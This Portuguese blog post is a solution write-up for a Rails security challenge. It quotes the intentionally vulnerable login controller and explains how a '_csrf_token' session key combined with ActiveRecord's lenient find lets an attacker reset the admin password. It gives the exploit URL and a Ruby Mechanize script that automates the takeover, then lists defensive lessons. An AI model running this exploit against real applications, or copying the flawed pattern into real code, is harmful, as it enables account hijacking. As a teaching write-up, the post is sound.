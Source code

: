```yaml
---
title: "[Small Bite] Session Injection Challenge"
date: '2014-08-28T12:00:00-03:00'
slug: small-bite-session-injection-challenge
tags:
- metasploit
- security
draft: false
---
```


Eu expliquei rapidamente sobre Metasploit no [artigo anterior](http://www.akitaonrails.com/2014/08/27/small-bite-brincando-com-metasploit), e sobre o desafio do [@joernchen](https://gist.github.com/joernchen). Se você ainda não resolveu o desafio, talvez queira deixar pra ler este artigo depois!

**SPOILER ALERT**

Mas se abriu até aqui no artigo é porque quer saber o que é o problema. O @joernchen [publicou exatamente o seguinte código](https://gist.github.com/joernchen/9dfa57017b4732c04bcc):

--- ruby
# Try to become "admin" on http://gettheadmin.herokuapp.com/ 
# Vector borrowed from real-world code ;)
 
 
# config/routes.rb:
 
  root 'login#login'
  post 'login' => 'login#login'
  get 'reset/:token' => 'login#password_reset'
 
# app/controllers/login_controller.rb
 
class LoginController < ApplicationController
  def login
    if request.post?
      user = User.where(login: params[:login]).first
      if !user.nil?
        if params[:password] == user.password
           render :text => "censored"
        end
        render :text => "Wrong Password"
        return
      end
    else
      render :template => "login/form"
    end
  end
  def password_reset
    @user = User.where(token: params[:token]).first
    if @user
      session[params[:token]] = @user.id
    else
      user_id = session[params[:token]]
      @user = User.find(user_id) if user_id
    end
    if !@user
      render :text => "no way!"
      return
    elsif params[:password] && @user && params[:password].length > 6
      @user.password = params[:password]
        if @user.save
          render :text => "password changed ;)"
          return
        end
    end
    render :text => "error saving password!"
  end
 
end
---

Basicamente um trecho do arquivo de <tt>routes.rb</tt> e o <tt>login_controller.rb</tt>. Assuma que também tem um form que poderia ser algo assim:

--- html
<%= form_tag '/login', method: :post do %>
  <%= text_field_tag 'login' %>
  <%= password_field_tag 'password' %>
  <%= submit_tag 'login' %>
<% end %>
---

E um model chamado <tt>User</tt> que poderia ter a seguinte migration:

--- ruby
class CreateUsers < ActiveRecord::Migration
  def change
    create_table :users do |t|
      t.string :token
      t.string :login
      t.string :password

      t.timestamps
    end
  end
end
---

E, finalmente, um seed que poderia ter o seguinte:

---
User.create token: 'qualquercoisa', login: 'admin', password: 'qualquercoisa'
---

Primeiro entenda o que o controller faz:

* tem uma action simples de <tt>login</tt> que valida o POST de usuário e senha e renderiza o form de login.
* tem uma action de <tt>reset_password</tt> que atende a rota <tt>reset/:token</tt>.

Quando o form é renderizado, ele gera um HTML assim:

--- html
<!DOCTYPE html>
<html>
<head>
  <title>Gettheadmin</title>
  <link data-turbolinks-track="true" href="/assets/application-9cc0575249625b8d8648563841072913.css" media="all" rel="stylesheet" />
  <script data-turbolinks-track="true" src="/assets/application-baf6c4c3436bbd5accc1b87ff9b9eabe.js"></script>
  <meta content="authenticity_token" name="csrf-param" />
<meta content="857GlwfWLYjv66EGyXa4d7PNUkPZleMgWcL+biMpDzE=" name="csrf-token" />
</head>
<body>

<form accept-charset="UTF-8" action="/login" method="post"><div style="display:none"><input name="utf8" type="hidden" value="&#x2713;" /><input name="authenticity_token" type="hidden" value="857GlwfWLYjv66EGyXa4d7PNUkPZleMgWcL+biMpDzE=" /></div>
  <input id="login" name="login" type="text" />
  <input id="password" name="password" type="password" />
  <input name="commit" type="submit" value="login" />
</form>

</body>
</html>
---

O importante: o token CSRF na tag de meta. Ele é diferente toda vez que você puxa o formulário e serve para evitar [Cross Site Request Forgery](http://guides.rubyonrails.org/security.html#cross-site-request-forgery-csrf). Mas tem um detalhe importante: quando a session é inicializada ele sempre vai ter pelo menos duas chave-valor: uma que é a "session_id" e outra com a chave "_csrf_token" com o valor que aparece no HTML justamente para fazer a checagem.

E a parte que é o buraco no controller é este:

--- ruby
user_id = session[params[:token]]
@user = User.find(user_id) if user_id
---

Se o <tt>params[:token]</tt> for "_csrf_token", o equivalente ficaria assim:

--- ruby
@user = User.find(session['_csrf_token'])
---

Agora, sabemos que o <tt>User.create</tt> inicial vai criar um admin com o ID que será o inteiro "1". O método <tt>#find</tt> aceita não só números como strings (para o caso, por exemplo, onde você cria uma renderização alternativa de ID para fazer URLs bonitas como no Wordpress onde ficaria "/1-admin" em vez de "/1"). 

Quando você faz:

--- ruby
"1abcd".to_i # => 1
---

Note que ele ignora o que não é string e devolve o inteiro 1.

Portanto, basta dar reload no site até o "_csrf_token" começar com "1" seguindo de letras. Aí ele vai fazer <tt>User.find("1abcd")</tt> que é o mesmo que <tt>User.find(1)</tt> e pronto! Conseguimos o usuário. E para piorar, o código do controller ainda faz isso em seguinte:

--- ruby
if params[:password] && @user && params[:password].length > 6
  @user.password = params[:password]
    if @user.save
      render :text => "password changed ;)"
      return
    end
end
---

Ou seja, ele grava a nova senha que você passar como parâmetro. Portanto a URL para exploit é:

---
http://gettheadmin.herokuapp.com/reset/_csrf_token?password=1234567
---

E para automatizar o exploit, fiz este pequeno script:

--- ruby
require 'rubygems'
require 'mechanize'

100.times do
  agent = Mechanize.new { |agent|
    agent.user_agent_alias = 'Mac Safari'
  }
  page = agent.get("http://gettheadmin.herokuapp.com/")
  token = page.at('meta[@name="csrf-token"]')[:content]
  puts token
  if token =~ /^1\w+/
    puts "TRYING EXPLOIT!!"
    doc = agent.get('http://gettheadmin.herokuapp.com/reset/_csrf_token?password=1234567')
    break if doc.content =~ /password changed/
  end
end
---

Quando o script parar, a senha mudou pra "1234567", agora basta fazer login com o usuário "admin" e senha "1234567" e pronto, você está dentro!

E eu coloquei 100 vezes, mas muito antes disso já vai parar porque não demora muito pra um "_csrf_token" que começa com "1".

![Exploit funciona](https://akitaonrails.s3.amazonaws.com/assets/image_asset/image/469/pasted_image_at_2014_08_27_11_38_am.png)

Lições aprendidas:

* A session tem valores por padrão! Nunca busque chaves na session baseado diretamente num parâmetro de URL. Aliás, **nunca** confie em parâmetros de URL

* Cuidado com o método <tt>#find</tt> do ActiveRecord por causa da conversão implícita de string para integer.

* Use uma biblioteca que já cuida desses detalhes como o [Devise](https://github.com/plataformatec/devise)

Assista aos screencasts do RubyTapas que falam justamente sobre conversões de strings:

* [206. Coersion](http://www.rubytapas.com/episodes/206-Coercion)
* [207. Conversion Function](http://www.rubytapas.com/episodes/207-Conversion-Function)
* [208. Lenient Conversions](http://www.rubytapas.com/episodes/208-Lenient-Conversions)
* [209. Explicit Conversion](http://www.rubytapas.com/episodes/209-Explicit-Conversion)
* [210. Implicit Conversion](http://www.rubytapas.com/episodes/210-Implicit-Conversion)

Alguém conseguiu explorar e mudar a senha de admin de outra forma diferente desta? Não deixe de comentar abaixo.
